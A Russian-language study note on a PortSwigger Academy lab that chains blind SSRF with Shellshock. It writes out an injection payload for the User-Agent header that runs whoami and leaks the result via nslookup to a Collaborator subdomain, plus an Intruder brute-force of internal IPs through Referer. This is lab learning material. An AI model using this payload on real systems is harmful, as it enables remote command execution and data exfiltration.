



https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

без колоборатора и платной версии burp решить нельзя

я планировал  использовать сервис 
https://app.interactsh.com

либо свою облачную функцию-детектор
  
https://functions.yandexcloud.net/d5esdrhe74dаdgvukpc1t

но портсвиггер запрещает сторонние домены кроме своего. 
поэтому :  БЕЗ ПОДПИСКИ ЭТУ ЛАБУ НЕВОЗМОЖНО РЕШИТЬ

------
посмотрю их решение и разбересь в нем!

**SSRF + уязвимость Shellshock** для выполнения команд на внутреннем сервере и **узнать имя пользователя ОС** через DNS-эксплуатацию

вот запрос, в заголовке referere есть ссылка!

пейлоады для REFERER
и для USER-AGENT

  Страница продукта делает **HTTP-запрос** с заголовком `Referer`
 
  В `Referer` подставляется **User-Agent пользователя** → уязвимость!

Уязвимость Shellshock (`CVE-2014-6271`) позволяет выполнять команды через переменные окружения.

() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN =пейлоад!

==whoami - команда, возвращающая имя пользователя ОС (попал ку-то спросил кто-я)

==nslookup - делает DNS-запрос с результатом в поддомене

### **Атака через Intruder**

1. **User-Agent** заменяем на Shellshock payload
   
2. **Referer** меняем на `http://192.168.0.§1§:8080`
   
3. Брутфорсим последний октет IP (1-255)
   
4. Когда находим уязвимый сервер → команда на серваке выполняется

5.  на мой хост приходит запрос с данными (лаба выполнена)

логи
